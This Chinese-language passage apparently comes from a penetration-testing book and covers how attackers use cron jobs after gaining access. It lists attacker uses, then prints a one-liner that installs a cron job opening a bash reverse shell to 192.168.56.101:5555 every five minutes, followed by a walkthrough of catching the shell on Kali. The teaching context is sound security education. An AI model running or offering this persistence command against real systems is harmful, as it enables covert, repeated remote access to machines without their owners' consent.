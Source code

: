```
 30 3 * * * /path/to/script.sh
```

要查看现有的 cron 作业，可以使用 `crontab -** **l` 命令。

对于渗透测试者来说，cron 作业在后期利用和维持访问中非常重要，原因有很多：

+   **持久性** : 攻击者可以使用 cron 作业通过安排任务来保持对被攻破系统的访问，这些任务会重新建立连接或下载更新的恶意软件。

+   **数据外泄** : 可以设置 cron 作业定期将敏感数据从受损系统发送到攻击者控制的服务器。

+   **权限提升** : 如果攻击者能够创建或修改以 root 或其他特权用户身份运行的 cron 作业，他们可能会在系统上提升自己的权限。

+   **后门维护** : cron 作业可以定期检查并修复任何可能被删除或禁用的后门。

+   **避开检测** : 通过在特定时间安排恶意活动，攻击者可以通过在系统管理员不太可能监控系统的时间执行操作，从而避开检测。

+   **自动化侦察** : 攻击者可以利用 cron 作业定期收集关于系统或网络的信息，帮助他们规划进一步的攻击或识别新的漏洞。

cron 作业可以通过安排恶意命令来维持持久性。以下是一个示例：

```
 $ echo "*/5 * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.168.56.101/5555 0>&1'" | crontab -
```

这会创建一个 cron 作业，每 5 分钟尝试建立一个反向 Shell 连接。

其工作原理如下：

+   `echo` : 这将添加一个新的 cron 作业。

+   `*/5 * * * *` : 这将设置每 5 分钟执行一次任务。

    该命令创建一个反向 shell（根据需要更改 IP 地址和端口）。

+   `| crontab -`：这会安装新的 crontab。

让我们看看实际操作。在目标系统上，我们执行命令来创建 cron 任务，接着立刻执行列出所有 cron 任务的命令。在 Kali 系统上，5 分钟内，我们就能得到 shell。以下截图展示了这一过程；下面的截图显示了在目标系统上已执行的命令：

![图 12.6 – 我们在目标系统上创建 cron 任务以实现持久性](img/B22229_12_06.jpg)

图 12.6 – 我们在目标系统上创建 cron 任务以实现持久性

下图展示了我们在 Kali 上接收到反向 shell：
